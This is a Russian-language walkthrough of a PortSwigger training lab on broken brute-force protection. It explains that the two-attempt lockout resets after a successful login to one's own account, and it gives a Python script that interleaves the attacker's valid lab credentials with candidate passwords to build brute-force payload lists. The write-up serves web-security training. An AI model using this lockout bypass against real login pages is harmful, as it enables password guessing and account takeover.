




# Лабораторная работа: Нарушена защита от перебора паролей, блокировка IP-адресов.

Эта лаборатория уязвима из-за логической ошибки в системе защиты от подбора паролей методом перебора. Для решения задачи необходимо подобрать пароль жертвы методом перебора, затем войти в систему и получить доступ к странице её учётной записи.

Ваши учетные данные: `wiener:peter`

Имя пользователя жертвы: `carlos`

[Пароли кандидатов](https://portswigger.net/web-security/authentication/auth-lab-passwords)


Ход работы:

Начинаем анализировать и при повторных неверных попытках авторизации видим ограниечние:





Стоит блокировка, в рамках которой пользователь может ввести неправильные данные только два раза, на третий раз будет блокировка равная 1-ой минуте.

Это можно обойти путем успешного входа в существующую учётную запись для сброски счетчика.
Для этого необходимо написать скрипт, который создаст данный payload:

```python
print("############The following are the username:#################")

for i in range(150):
    if i % 3:
        print("carlos")
    else:
        print("wiener")

print("##############The following are the password:#################")

with open('password.txt', 'r') as f:
    lines = f.readlines()

i = 0
for pwd in lines:
    if i % 3:
        print(pwd.strip('\n'))
    else:
        print("peter")
        print(pwd.strip('\n'))
        i = i + 1
    i = i + 1
```

Вот результат:



После чего начинаем BruteForce:



Нашли пароль, пытаемся авторизоваться:



Успех!


